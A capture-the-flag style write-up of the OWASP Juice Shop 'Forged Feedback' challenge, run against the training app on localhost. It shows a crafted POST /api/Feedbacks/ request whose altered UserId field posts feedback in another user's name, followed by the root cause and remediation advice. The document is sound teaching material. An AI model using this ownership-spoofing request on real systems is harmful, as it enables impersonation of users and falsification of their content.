


# OWASP Juice Shop – Forged Feedback via Mass Assignment (Broken Object Property Level Authorization)

> Tested on a local, intentionally vulnerable training app (OWASP Juice Shop) at `http://localhost:3000`.
> Date: 2026-11-03 | Tools: Burp Suite (Repeater), Firefox + PwnFox

## Summary

The endpoint `POST /api/Feedbacks/` accepts a client-supplied `UserId` field in the request body without checking that it matches the authenticated user identified by the Bearer token. An authenticated user can create a feedback entry that is permanently attributed to any other user's account just by changing the `UserId` value in the JSON body, regardless of whose token is used to sign the request.

| Field | Value |
|---|---|
| Vulnerability | Forged Feedback (Mass Assignment / Spoofed Ownership) |
| Category | A01:2021 – Broken Access Control |
| Endpoint | `POST /api/Feedbacks/` |
| Authentication | Required (any valid, authenticated user) |
| Impact | Integrity (content/identity spoofing, impersonation, reputational damage to the impersonated user) |
| Challenge solved | **Forged Feedback** (Post some feedback in another user's name.) |

## Test Accounts

> Note: due to the account naming in this lab, the account that *performed* the exploit is `victem@gmail.com`, and the account that was *impersonated* is `attacker@gmail.com`. Roles below follow who-did-what, not the literal account names.

| Role | Email | User ID | Feedback ID | Feedback content |
|---|---|---|---|---|
| Attacker (performed the exploit) | victem@gmail.com | 25 | 16 (baseline) / 17 (forged) | "hi my name is victem (***tem@gmail.com)" |
| Victim (impersonated) | attacker@gmail.com | 26 | 11 (baseline) | "hii my name is attacker (***acker@gmail.com)|" |

## Steps to Reproduce

### 1. Establish baseline identity for each account

Each account was first used to submit a normal feedback while authenticated as itself, to confirm the real `UserId` behind each token: `attacker@gmail.com` → UserId `26` (feedback id `11`), `victem@gmail.com` → UserId `25` (feedback id `16`).




### 2. Craft a forged request using the victim account's token

While authenticated with the `victem@gmail.com` account's own Bearer token (and matching `X-User-Email: victem@gmail.com` header), the `UserId` field in the POST body was changed from the account's real id (`25`) to the other account's id (`26`):

```http
POST /api/Feedbacks/ HTTP/1.1
Host: localhost:3000
Authorization: Bearer <victem_token>
X-User-Email: victem@gmail.com
Content-Type: application/json

{
  "UserId": 26,
  "captchaId": 1,
  "captcha": "41",
  "comment": "hi my name is victem (***tem@gmail.com)",
  "rating": 5
}
```

### 3. Result

The server accepted the forged `UserId` without validating it against the token's actual owner, returning `201 Created` with `Location: /api/Feedbacks/17` and a response body confirming the feedback was stored under `UserId: 26` (the `attacker@gmail.com` account), even though the request was authenticated as `victem@gmail.com`:



Relevant part of the response:

```json
{
  "status": "success",
  "data": {
    "id": 17,
    "UserId": 26,
    "comment": "hi my name is victem (***tem@gmail.com)",
    "rating": 5
  }
}
```

The Juice Shop application confirmed the exploit by awarding the **"Forged Feedback"** challenge ("Post some feedback in another user's name").

## Root Cause

The `POST /api/Feedbacks/` handler trusts the `UserId` field supplied in the client-controlled JSON body as the feedback owner, instead of deriving the owner solely from the authenticated session/JWT (e.g. the `sub`/user id claim in the Bearer token). There is no server-side check that the submitted `UserId` equals the id of the user making the authenticated request, which is a classic Mass Assignment / Broken Object Property Level Authorization flaw.

## Impact

Any authenticated user, regardless of their own account id, can create feedback entries attributed to an arbitrary other user id — including ids belonging to accounts they do not control. This allows:
- Impersonation: attributing arbitrary (and potentially offensive, defamatory, or misleading) comments to another user's identity.
- Reputational damage to the impersonated account, since the forged feedback is indistinguishable from genuine feedback submitted by that user.
- Pollution/falsification of the feedback dataset, undermining trust in displayed ratings/comments.

## Remediation

- Derive the feedback's `UserId` exclusively from the authenticated session (JWT claim), never from client-supplied request body fields.
- Explicitly strip or ignore any `UserId` field received in the POST body before persisting the record (allow-list the fields the client is permitted to set).
- Add server-side validation that rejects a request if a `UserId` is supplied and does not match the authenticated user.
- Apply the same allow-list/ownership validation pattern to all other write endpoints that accept an object owner/foreign-key field in the request body.

## References

- OWASP Top 10 – A01:2021 Broken Access Control
- OWASP API Security Top 10 – API3:2023 Broken Object Property Level Authorization
- OWASP Juice Shop

## Disclaimer

For educational purposes only, performed on a local lab environment.

---
